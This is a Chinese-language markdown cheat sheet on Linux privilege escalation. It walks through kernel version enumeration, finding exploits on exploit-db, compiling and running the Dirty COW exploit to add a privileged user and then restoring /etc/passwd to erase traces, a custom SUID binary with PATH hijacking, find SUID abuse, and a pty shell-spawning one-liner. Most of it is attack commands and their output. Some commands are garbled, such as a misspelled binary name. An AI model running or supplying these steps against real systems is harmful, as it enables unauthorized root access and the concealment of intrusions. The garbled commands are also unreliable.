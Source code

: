 # Linux内核提权

> 1.`whoami`判断权限
>
> 2.根据系统版本查找漏洞,并利用对应的`exp`
>
> 3.翻阅目录,根据linux敏感目录和第三方软件,查找对应的敏感文件
>
> 获取交互式命令行`python -c 'import pty; pty.spawn("/bin/bash")'`

| 命令              | 说明                   |
| ----------------- | ---------------------- |
| uname -a          | 打印所有可用的系统信息 |
| uname -r          | 内核版本               |
| uname -m          | 查看系统内核架构       |
| cat /proc/version | 内核信息               |
| cat /etc/issue    | 发行版本信息           |
| whoami            | 当前用户名             |
| id                | 当前用户信息           |

- 搜索对应的exp

> https://www.exploit-db.com/
>
> https://www.github.com/SecWiki/linux-kernel-exploits

****

# 脏牛提权

- 上传`dirty.c`文件到目标

```bash
#使用下面的命令编译
gcc -pthread dirty.c -o dirty -lcrypt
```

- 执行

```bash
# +新增用户密码
./dijrty 445566
# 查看是否提权成功
cat /etc/passwd
# 销毁(覆盖)
mv /tmp/passwd.bak /etc/passwd
```

### 示例

![image-20241029150248307](./assets/image-20241029150248307.png)

![image-20241029150342235](./assets/image-20241029150342235.png)

- 覆盖删除痕迹

```bash
mv /tmp/passwd.bak /etc/passwd
```



****

# Linux suid自定义文件提权

- 编辑一个`demo.c`文件

```c
#include<unistd.h>
void main(){
setuid(0);
setgid(0);
system("su - tomato");
}
```

- 编译

```bash
gcc demo.c -o demo
```

- 给`demo`文件添加`s权限`

```bash
chmod u+s demo
&
chmod 4777 demo
```

![image-20241029160131874](./assets/image-20241029160131874.png)

```bash
[root@localhost tmp]# echo "/bin/bash" > su
[root@localhost tmp]# cat su
/bin/bash
[root@localhost tmp]# chmod 777 su
[root@localhost tmp]# export PATH=/tmp:$PATH
[root@localhost tmp]# echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/root/bin
```

![image-20241029161215166](./assets/image-20241029161215166.png)

****

# Linux find_suid提权

```bash
[root@localhost /]# which find
/usr/bin/find
[root@localhost /]# chmod u+s /usr/bin/find
[root@localhost /]# ll /usr/bin/find
-rwsr-xr-x. 1 root root 199304 10月 31 2018 /usr/bin/find
[root@localhost /]# su test
[test@localhost /]$ find root -exec "cat whoami" \;
root
```

# Linux Mysql UDF提权

- 和windows类似